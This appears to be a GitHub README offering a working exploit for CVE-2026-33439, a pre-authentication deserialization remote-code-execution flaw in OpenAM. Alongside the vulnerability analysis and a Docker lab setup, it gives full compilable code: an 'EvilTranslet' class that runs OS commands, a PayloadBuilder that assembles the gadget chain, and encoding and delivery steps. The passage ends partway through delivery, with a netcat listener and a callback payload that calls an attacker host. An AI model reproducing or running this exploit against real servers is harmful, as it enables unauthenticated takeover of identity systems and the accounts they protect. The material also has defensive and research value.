







# ***🐞 CVE-2026-33439: OpenAM Pre-Auth RCE via jato.clientSession Deserialization***


<p align="center">
	<em>Human insight + AI-assisted analysis + reverse engineering + advisory → exploit</em>
</p>

<p align="center">
	<em>First publicly shared exploit implementation for CVE-2026-33439</em>
</p>


<p align="center">
	
</p>


<p align="center">
	<em>Unauthenticated Java deserialization vulnerability in ForgeRock OpenAM allowing full remote code execution via crafted JATO session objects. The same river flows twice, they fixed jato.pageSession (CVE-2021-35464) and forgot jato.clientSession (CVE-2026-33439). A deserialization gadget chain does not ask for credentials.</em>
</p>


---
---
---


## ***📑 Table of Contents***

<ul>
	<li><a href="#overview">Overview</a></li>
	<li><a href="#background">The CVE-2021-35464 Lineage</a></li>
	<li><a href="#vulnerability">CVE-2026-33439 Vulnerability Analysis</a>
	<details>
	<summary>📂</summary>
	<ul>
		<li><a href="#vulnerability_root_cause">Root Cause</a></li>
		<li><a href="#vulnerability_affected">Affected Versions</a></li>
		<li><a href="#vulnerability_attacksurface">Attack Surface</a></li>
	</ul>
	</details>
	</li>
	<li><a href="#gadgetchain">The Gadget Chain</a>
	<details>
	<summary>📂</summary>
	<ul>
		<li><a href="#gadgetchain_deserialization101">Java Deserialization 101</a></li>
		<li><a href="#gadgetchain_encoding">Encoder.decodeHttp64</a></li>
		<li><a href="#gadgetchain_gadgetinternals">Gadget Chain Internals</a></li>
	</ul>
	</details>
	</li>
	<li><a href="#lab">Lab Environment</a>
	<details>
	<summary>📂</summary>
	<ul>
		<li><a href="#lab_architecture">Architecture</a></li>
		<li><a href="#lab_setup">Setup</a></li>
		<li><a href="#lab_access">Access</a></li>
	</ul>
	</details>
	</li>
	<li><a href="#exploitation">Exploitation</a>
	<details>
	<summary>📂</summary>
	<ul>
		<li><a href="#exploitation_prerequisites">Prerequisites</a></li>
		<li><a href="#exploitation_discovery">Discovery & Reconnaissance</a></li>
		<li><a href="#exploitation_analysis">Understanding the Encoding</a></li>
		<li><a href="#exploitation_building">Building the Exploit</a></li>
		<li><a href="#exploitation_delivery">Payload Delivery</a></li>
		<li><a href="#exploitation_poc">PoC Tool Usage</a></li>
	</ul>
	</details>
	</li>
	<li><a href="#mitigation">Mitigation</a></li>
	<li><a href="#references">References</a></li>
</ul>


---
---
---


<div id="overview"/>

## ***🎯 Overview***

CVE-2026-33439 is a pre-authentication Remote Code Execution vulnerability in OpenIdentityPlatform OpenAM (versions prior to 16.0.6). The vulnerability stems from unsafe Java deserialization of the `jato.clientSession` HTTP parameter inside `ClientSession.deserializeAttributes()`, which calls `Encoder.deserialize()` → `ApplicationObjectInputStream.readObject()` with no class whitelist applied.

An unauthenticated attacker sends a crafted HTTP GET or POST request containing a serialized Java object to any JATO ViewBean endpoint whose JSP renders `<jato:form>` tags. Upon receipt, the server deserializes the object without validation, triggering a gadget chain built entirely from classes bundled in the OpenAM WAR - no external libraries required - and executing arbitrary OS commands as the application process user.

> CVSS 4.0 Vector: AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N → 9.3 Critical

> CVSS 3.1 Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H → 9.8 Critical


---
---
---


<div id="background"/>

## ***🧬 The CVE-2021-35464 Lineage***

This vulnerability is a direct regression of the incomplete fix applied after CVE-2021-35464.

- **[CVE-2021-35464](https://nvd.nist.gov/vuln/detail/CVE-2021-35464)** (ForgeRock AM / OpenAM): Pre-auth RCE via unsafe deserialization of the jato.pageSession parameter. Widely exploited in the wild; CISA KEV-listed. The fix introduced WhitelistObjectInputStream inside ConsoleViewBeanBase.deserializePageAttributes() - a custom ObjectInputStream subclass that checks every class name against a hardcoded allowlist of ~40 safe classes before instantiating it.

- **[CVE-2026-33439](https://nvd.nist.gov/vuln/detail/CVE-2026-33439)** (OpenAM ≤ 16.0.5): The fix was applied to jato.pageSession only. The jato.clientSession parameter - handled by a completely separate code path in ClientSession.deserializeAttributes() - was never patched and still uses the unfiltered Encoder.deserialize() → ApplicationObjectInputStream, which calls ObjectInputStream.readObject() with no class whitelist.

The attack primitive is the same. The deserialization sink is different. Only the parameter name changed.


---
---
---


<div id="vulnerability"/>

## ***🔬 CVE-2026-33439 Vulnerability Analysis***

<div id="vulnerability_root_cause"/>

### ***Root Cause***

JATO serializes UI view state to HTTP parameters named jato.pageSession and jato.clientSession. When a request arrives, OpenAM deserializes these parameters to restore UI state before rendering the response. The two parameters follow entirely different code paths.

The patched code path (post-CVE-2021-35464) for jato.pageSession:

```java
// PATCHED - ConsoleViewBeanBase.deserializePageAttributes()
ObjectInputStream ois = new WhitelistObjectInputStream(new ByteArrayInputStream(decoded));
// class whitelist enforced - gadget chains blocked
Object obj = ois.readObject();
```

The unpatched code path for jato.clientSession (vulnerable):

```java
// ClientSession.java
protected ClientSession(RequestContext context) {
	this.encodedSessionString =
		context.getRequest().getParameter("jato.clientSession");
}

protected void deserializeAttributes() {
	if (this.encodedSessionString != null
		&& this.encodedSessionString.trim().length() > 0) {
		this.setAttributes(
			(Map) Encoder.deserialize(
				// VULNERABLE - URL-safe base64 decode then plain ObjectInputStream
				Encoder.decodeHttp64(this.encodedSessionString), false)
		);
	}
}
```

*Encoder.deserialize()* constructs a plain *ApplicationObjectInputStream* - a subclass of *ObjectInputStream* with no class filtering. Any class on the JVM classpath can be instantiated. Deserialization is triggered during JSP rendering whenever a *< jato:form >* tag is rendered:

```
getClientSession() → hasAttributes() → getEncodedString() → isValid() → ensureAttributes() → deserializeAttributes()
```

---

<div id="vulnerability_affected"/>

### ***Affected Versions***

| Product                     | Vulnerable                                      | Fixed  |
|-----------------------------|-------------------------------------------------|--------|
| OpenIdentityPlatform OpenAM | ≤ 16.0.5                                        | 16.0.6 |
| ForgeRock AM (downstream)   | Potentially affected depending on patch lineage | -      |

---

<div id="vulnerability_attacksurface"/>

### ***Attack Surface***

Any JATO ViewBean endpoint whose JSP contains a *< jato:form >* tag is exploitable pre-authentication:

| Endpoint                  | Purpose                              |
|---------------------------|--------------------------------------|
| /ui/PWResetUserValidation | Password reset - user identity input |
| /ui/PWResetQuestion       | Password reset - security questions  |

Password reset endpoints are the primary target, they are publicly accessible by design and guaranteed to render *< jato:form >* tags.


---
---
---


<div id="gadgetchain"/>

## ***⚙️ The Gadget Chain***

<div id="gadgetchain_deserialization101"/>

### ***Java Deserialization 101***

When Java deserializes an object from a byte stream, it calls readObject() on every class it reconstructs, including nested objects. If an attacker controls the byte stream and injects an object whose readObject() triggers a chain of method calls ending in code execution, they have gadget-chain RCE.

The key insight of CVE-2026-33439: the gadget chain requires no external libraries. Every class in the chain is bundled inside the OpenAM WAR itself `openam-core-16.0.5.jar, xalan-2.7.3.jar, and click-nodeps-2.3.0.jar`. <u>This makes the vulnerability exploitable on any default OpenAM deployment.</u>

---

<div id="gadgetchain_encoding"/>

### ***Encoder.decodeHttp64***

This is the critical detail that makes the exploit work. The `Encoder` class in `jato-shaded-16.0.5.jar` uses Java's URL-safe base64 encoder/decoder - not standard base64, and not a custom character substitution scheme.

Verified by decompiling Encoder.class:

```bash
# Extract Encoder.class from the JATO JAR
jar xf /work/jato-shaded-16.0.5.jar com/iplanet/jato/util/Encoder.class

# Decompile and inspect decodeHttp64
javap -p -c com/iplanet/jato/util/Encoder.class | grep -A10 "decodeHttp64"
```

```
public static byte[] decodeHttp64(java.lang.String);
Code:
	0: invokestatic  #8  // Method java/util/Base64.getUrlDecoder:()Ljava/util/Base64$Decoder;
	3: aload_0
	4: invokevirtual #9  // Method java/util/Base64$Decoder.decode:(Ljava/lang/String;)[B
	7: areturn
```

URL-safe base64 uses '-' instead of '+' and '_' instead of '/', with no padding '='. The correct encoding is:

```java
Base64.getUrlEncoder().withoutPadding().encodeToString(serializedBytes)
```

Any other encoding, including standard base64 or manual character substitution, will cause `decodeHttp64()` to throw an exception or produce corrupt bytes, silently aborting deserialization with no error in the HTTP response.

---

<div id="gadgetchain_gadgetinternals"/>

### ***Gadget Chain Internals***

The full chain, using only classes from the OpenAM WAR:

```
PriorityQueue.readObject()                                     [java.util - JDK]
→ heapify() → siftDown() → comparator.compare()
	→ Column$ColumnComparator.compare(o1, o2)                  [openam-core-16.0.5.jar]
	→ Column.getTable().isSortedAscending()                    [click-nodeps-2.3.0.jar]
	→ Column.getProperty(o1)
		→ PropertyUtils.getObjectPropertyValue(                [openam-core-16.0.5.jar]
			o1, "outputProperties")
		→ Method.invoke(o1, "getOutputProperties")
			→ TemplatesImpl.getOutputProperties()              [xalan-2.7.3.jar]
			→ getTransletInstance()
				→ defineTransletClasses()
				→ TransletClassLoader.defineClass(_bytecodes)
					→ _class[_transletIndex].newInstance()
					→ EvilTranslet.<clinit>()                  [attacker bytecode]
						→ Runtime.getRuntime().exec(cmd)
```

```bash
# Extract Column$ColumnComparator.class from the JAR
jar xf /work/openam-core-16.0.5.jar 'org/openidentityplatform/openam/click/control/Column$ColumnComparator.class'

# Decompile and inspect the compare() method, reveals getTable() call before getProperty()
javap -p -c 'org/openidentityplatform/openam/click/control/Column$ColumnComparator.class' | grep -A40 "compare"

# Extract and inspect Column.class, reveals getProperty() and setTable() methods
jar xf /work/openam-core-16.0.5.jar org/openidentityplatform/openam/click/control/Column.class

javap -p org/openidentityplatform/openam/click/control/Column.class | grep -i "getProperty\|setTable\|getTable\|getComparator"
```

**Critical detail:** "Column$ColumnComparator.compare()" calls "column.getTable().isSortedAscending()" before calling "getProperty()". If "getTable()" returns null, the chain aborts with "NullPointerException" before reaching "TemplatesImpl". A "Table" object must be associated to the "Column" via "column.setTable(table)" before serialization.


---
---
---


<div id="lab"/>

## ***🧪 Lab Environment***

<div id="lab_architecture"/>

### ***Architecture***

```
┌────────────────────────────────────────────────────────────────┐
│                   Docker Network: lab_net                      │
│                    (subnet 10.13.37.0/24)                      │
│                                                                │
│  ┌──────────────────────────────┐   ┌───────────────────────┐  │
│  │  openam.lab.local            │   │  attacker             │  │
│  │  OpenAM 16.0.5 WAR           │◄──│  Debian bookworm-slim │  │
│  │  Tomcat 10.1.52 + Java 21    │   │  Java 21 (JDK)        │  │
│  │  jato.clientSession ← sink   │   │  python3, curl, nc    │  │
│  │  port 8080                   │   │                       │  │
│  └──────────────────────────────┘   └───────────────────────┘  │
│                  ▲                                             │
└──────────────────┼─────────────────────────────────────────────┘
				   │ localhost:8080
			┌──────┴──────┐
			│    HOST     │
			└─────────────┘
```

| Container               | Image                                    | Role              |
|-------------------------|------------------------------------------|-------------------|
| cve_2026_33439_openam   | tomcat:10.1.52-jdk21 + OpenAM 16.0.5 WAR | Vulnerable target |
| cve_2026_33439_attacker | debian:bookworm-slim                     | Attack machine    |

> The lab uses the official OpenAM 16.0.5 WAR deployed on Tomcat 10.1.52 with Java 21 - the exact environment described in the GitHub Security Advisory.

---

<div id="lab_setup"/>

### ***Setup***

<p align="center">
	
</p>

**Step 1 - Download the official OpenAM 16.0.5 WAR**

```powershell
# From PowerShell on the host
cd "01 Vulnerable"

Invoke-WebRequest -Uri "https://github.com/OpenIdentityPlatform/OpenAM/releases/download/16.0.5/OpenAM-16.0.5.war" -OutFile "OpenAM-16.0.5.war"
```

**Step 2 - Start the containers**

```powershell
docker compose up -d
```

**Step 3 - Configure OpenAM from the browser**

Navigate to "http://localhost:8080/openam", click "Create Default Configuration" and set:

| Field                           | Value         |
|---------------------------------|---------------|
| Default User Password (amadmin) | Lab@dm1n2026! |
| Agent Password                  | secret12      |

Wait ~2 minutes for the configuration to complete.

**Step 4 - Confirm Password Reset is enabled**

Log in as amadmin → Configure → Global Services → Password Reset → enable the toggle → Save Changes.

**Step 5 - Identify the exploitable JSP endpoints**

Find all JSPs in the WAR that contain *< jato:form >* tags, these are the endpoints where jato.clientSession deserialization is triggered:

```powershell
# Identify all JSPs containing <jato:form> tags - these are the deserialization sinks
docker exec cve_2026_33439_openam grep -rl "jato:form" /usr/local/tomcat/webapps/openam

# Inspect web.xml to understand how the password reset servlet is mapped to HTTP routes
docker exec cve_2026_33439_openam grep -A5 -B5 "PWReset\|password" /usr/local/tomcat/webapps/openam/WEB-INF/web.xml | Select-String "url-pattern|servlet-name|PWReset|password"
```

Inspect the JSP source to understand why `jato.clientSession` may not appear in the rendered HTML. The `<jato:form>` tag is wrapped inside `<jato:content name="resetPage">`, which only renders when the ViewBean activates that block. However, `<jato:useViewBean>` at the top of the JSP always instantiates the ViewBean and processes `jato.clientSession` before deciding which blocks to render - deserialization occurs at that point regardless:

```powershell
docker exec cve_2026_33439_openam cat /usr/local/tomcat/webapps/openam/password/ui/PWResetUserValidation.jsp
```

```jsp
<%-- Always instantiates ViewBean and processes jato.clientSession --%>
<jato:useViewBean className="com.sun.identity.password.ui.PWResetUserValidationViewBean">

	<%-- Only renders if ViewBean activates this block --%>
	<jato:content name="resetPage">
		<jato:form name="PWResetUserValidation" method="post">
			<%-- jato.clientSession hidden field appears here --%>
		</jato:form>
	</jato:content>

</jato:useViewBean>
```

**Step 6 - Verify the endpoint is reachable pre-authentication**

```powershell
(Invoke-WebRequest -Uri "http://localhost:8080/openam/ui/PWResetUserValidation" -UseBasicParsing).Content | Select-String "jato"
```
---

<div id="lab_access"/>

### ***Access***

```powershell
# Drop into the attacker container
docker exec -it cve_2026_33439_attacker bash
```

Teardown:

```powershell
#  stop, keep volumes
docker compose down

# full wipe
docker compose down -v
```


---
---
---


<div id="exploitation"/>

## ***💣 Exploitation***

<div id="exploitation_prerequisites"/>

### ***Prerequisites***

<p align="center">
	
</p>

| Requirement            | Notes                                                                                                                            |
|------------------------|----------------------------------------------------------------------------------------------------------------------------------|
| JDK 21 (javac)         | Must match the JVM version running OpenAM. JRE alone is not enough, javac is required to compile EvilTranslet and PayloadBuilder |
| openam-core-16.0.5.jar | Copied from OpenAM container - contains Column, Column$ColumnComparator, PropertyUtils                                           |
| xalan-2.7.3.jar        | Copied from OpenAM container - contains TemplatesImpl, TransformerFactoryImpl                                                    |
| serializer-2.7.3.jar   | Copied from OpenAM container - contains SerializationHandler used by EvilTranslet                                                |
| click-nodeps-2.3.0.jar | Copied from OpenAM container - contains Table (required by Column$ColumnComparator)                                              |
| click-extras-2.3.0.jar | Copied from OpenAM container - transitive dependency of click-nodeps                                                             |
| jato-shaded-16.0.5.jar | Copied from OpenAM container - contains Encoder with decodeHttp64                                                                |
| servlet-api.jar        | Copied from Tomcat lib/ - Jakarta Servlet API required for serialization of Table                                                |
| Python 3.8+            | For the PoC script                                                                                                               |
| requests               | pip install requests                                                                                                             |

---

<div id="exploitation_discovery"/>

### ***Discovery & Reconnaissance***

**Step 1 - Confirm OpenAM is running and identify version**

```
http://localhost:8080/openam/ccversion/Version
```

**Step 2 - Probe JATO ViewBean endpoints**

```bash
for ENDPOINT in "/ui/PWResetUserValidation" "/ui/PWResetQuestion" "/ui/Login"; do
	STATUS=$(curl -sk -o /dev/null -w "%{http_code}" \
		"http://openam.lab.local:8080/openam${ENDPOINT}?jato.clientSession=probe")
	echo "[HTTP ${STATUS}] ${ENDPOINT}"
done
```

**Step 3 - Confirm jato.clientSession is processed**

```bash
curl -sk "http://openam.lab.local:8080/openam/ui/PWResetUserValidation" | grep "jato"
```

The response will contain "jato.defaultCommand" and "jato.pageSession" but not "jato.clientSession" in the rendered HTML, this is expected behavior. The "jato.clientSession" field only appears inside *< jato:content name="resetPage" >*, which requires the ViewBean to activate that block. However, *< jato:useViewBean >* always instantiates the ViewBean and processes "jato.clientSession" before deciding which blocks to render. Deserialization is triggered at instantiation time regardless of whether the field appears in the final HTML output. The presence of "jato.pageSession" in the response confirms that JATO serialization is active on this endpoint and "jato.clientSession" will be deserialized on the next request.

---

<div id="exploitation_analysis"/>

### ***Understanding the Encoding***

Before building the exploit, the encoding used by "Encoder.decodeHttp64()" must be verified by decompiling the JATO JAR. This step is essential, using the wrong encoding causes silent deserialization failure.

**Step 1 - Copy all required JARs from OpenAM to the attacker workspace**

From PowerShell on the host:

```powershell
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/openam-core-16.0.5.jar .
docker cp openam-core-16.0.5.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/xalan-2.7.3.jar .
docker cp xalan-2.7.3.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/serializer-2.7.3.jar .
docker cp serializer-2.7.3.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/click-nodeps-2.3.0.jar .
docker cp click-nodeps-2.3.0.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/click-extras-2.3.0.jar .
docker cp click-extras-2.3.0.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/jato-shaded-16.0.5.jar .
docker cp jato-shaded-16.0.5.jar cve_2026_33439_attacker:/work/
docker cp cve_2026_33439_openam:/usr/local/tomcat/lib/servlet-api.jar .
docker cp servlet-api.jar cve_2026_33439_attacker:/work/
```

**Step 2 - Decompile Encoder to verify the decoding method**

From inside the attacker container:

```bash
# Extract Encoder.class from the JATO JAR
jar xf /work/jato-shaded-16.0.5.jar com/iplanet/jato/util/Encoder.class

# Decompile and inspect decodeHttp64
javap -p -c com/iplanet/jato/util/Encoder.class | grep -A10 "decodeHttp64"
```

Expected output confirming URL-safe base64:

```
public static byte[] decodeHttp64(java.lang.String);
Code:
	0: invokestatic  #8  // Method java/util/Base64.getUrlDecoder:()Ljava/util/Base64$Decoder;
	3: aload_0
	4: invokevirtual #9  // Method java/util/Base64$Decoder.decode:(Ljava/lang/String;)[B
	7: areturn
```

**Step 3 - Decompile Column$ColumnComparator to verify the gadget chain path**

```bash
# Extract Column and ColumnComparator
jar xf /work/openam-core-16.0.5.jar org/openidentityplatform/openam/click/control/Column.class

# Verify compare() calls getTable() before getProperty()
javap -p -c 'org/openidentityplatform/openam/click/control/Column$ColumnComparator.class' | grep -A40 "compare"
```

This confirms that Column.getTable() must return a non-null Table object, otherwise compare() throws NullPointerException before reaching getProperty() → TemplatesImpl.

---

<div id="exploitation_building"/>

### ***Building the Exploit***

All commands from inside the attacker container.

**Step 1 - Set the classpath**

```bash
CP=/work/openam-core-16.0.5.jar:/work/xalan-2.7.3.jar:/work/serializer-2.7.3.jar:/work/click-nodeps-2.3.0.jar:/work/click-extras-2.3.0.jar:/work/servlet-api.jar:/work
```

**Step 2 - Write and compile EvilTranslet.java**

EvilTranslet extends AbstractTranslet (required by TemplatesImpl) and executes the command in the static initializer, which runs automatically on newInstance().

```bash
cat > /work/EvilTranslet.java << 'EOF'
import org.apache.xalan.xsltc.TransletException;
import org.apache.xalan.xsltc.runtime.AbstractTranslet;
import org.apache.xml.dtm.DTMAxisIterator;
import org.apache.xml.serializer.SerializationHandler;
import org.apache.xalan.xsltc.DOM;

public class EvilTranslet extends AbstractTranslet {
	static {
		try {
			Runtime.getRuntime().exec(new String[]{"touch", "/tmp/pwned"});
		} catch (Exception ignored) {}
	}
	public void transform(DOM d, SerializationHandler[] h) throws TransletException {}
	public void transform(DOM d, DTMAxisIterator i, SerializationHandler h) throws TransletException {}
}
EOF

javac -cp $CP /work/EvilTranslet.java
```

**Step 3 - Write and compile PayloadBuilder.java**

PayloadBuilder constructs the gadget chain and outputs the URL-safe base64 encoded serialized payload.

```bash
cat > /work/PayloadBuilder.java << 'EOF'
import org.apache.xalan.xsltc.trax.TemplatesImpl;
import org.apache.xalan.xsltc.trax.TransformerFactoryImpl;
import org.openidentityplatform.openam.click.control.Column;
import org.openidentityplatform.openam.click.control.Table;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

public class PayloadBuilder {

	// Encoder.decodeHttp64() uses Java URL-safe base64 (getUrlDecoder)
	static String encodeHttp64(byte[] data) {
		return Base64.getUrlEncoder().withoutPadding().encodeToString(data);
	}

	static void setField(Object obj, String name, Object value) throws Exception {
		Field f = obj.getClass().getDeclaredField(name);
		f.setAccessible(true);
		f.set(obj, value);
	}

	static void setFieldPQ(Object obj, String name, Object value) throws Exception {
		Field f = PriorityQueue.class.getDeclaredField(name);
		f.setAccessible(true);
		f.set(obj, value);
	}

	public static void main(String[] args) throws Exception {
		byte[] bytecode = Files.readAllBytes(Paths.get(args[0]));

		// Step 1 - TemplatesImpl with EvilTranslet bytecode
		// getOutputProperties() -> defineTransletClasses() -> newInstance() -> <clinit>
		TemplatesImpl templates = new TemplatesImpl();
		setField(templates, "_bytecodes",     new byte[][]{ bytecode });
		setField(templates, "_name",          "EvilTranslet");
		setField(templates, "_tfactory",      new TransformerFactoryImpl());
		setField(templates, "_transletIndex", 0);

		// Step 2 - Column with Table associated
		// Column$ColumnComparator.compare() calls column.getTable().isSortedAscending() before calling column.getProperty(). Table must not be null.
		Table table = new Table();
		Column column = new Column("outputProperties");
		column.setTable(table);

		@SuppressWarnings("unchecked")
		Comparator<Object> comparator = (Comparator<Object>) column.getComparator();

		// Step 3 - PriorityQueue as deserialization trigger
		// readObject() -> heapify() -> siftDown() -> comparator.compare()
		// Size must be >= 2 for heapify to call compare()
		PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
		setFieldPQ(queue, "queue", new Object[]{ templates, templates });
		setFieldPQ(queue, "size",  2);

		// Step 4 - Serialize and URL-safe base64 encode
		ByteArrayOutputStream baos = new ByteArrayOutputStream();
		ObjectOutputStream oos = new ObjectOutputStream(baos);
		oos.writeObject(queue);
		oos.close();

		System.out.println(encodeHttp64(baos.toByteArray()));
	}
}
EOF

javac -cp $CP /work/PayloadBuilder.java
```

**Step 4 - Generate the payload**

```bash
java --add-opens java.base/java.util=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED -cp $CP PayloadBuilder /work/EvilTranslet.class > /work/payload.b64

# Verify it starts with the Java serialization magic bytes (rO0A = \xACED\x00\x05 in base64)
head -c 10 /work/payload.b64
```

---

<div id="exploitation_delivery"/>

### ***Payload Delivery***

**Confirm RCE with an out-of-band HTTP callback**

<p align="center">
	
</p>

Terminal 1 - Listener:

```
docker exec -it cve_2026_33439_attacker bash

nc -lvnp 9999
```

Terminal 2 - Generate and send callback payload:

```
docker exec -it cve_2026_33439_attacker bash

cat > /work/EvilTranslet.java << 'EOF'
import org.apache.xalan.xsltc.TransletException;
import org.apache.xalan.xsltc.runtime.AbstractTranslet;
import org.apache.xml.dtm.DTMAxisIterator;
import org.apache.xml.serializer.SerializationHandler;
import org.apache.xalan.xsltc.DOM;

public class EvilTranslet extends AbstractTranslet {
	static {
		try {
			Runtime.getRuntime().exec(new String[]{"curl", "http://attacker:9999/pwned"});
		} catch (Exception ignored) {}
	}
	public void transform(DOM d, SerializationHandler[] h) throws TransletException {}
	public void transform(DOM d, DTMAxisIterator i, SerializationHandler h) throws TransletException {}
}
EOF

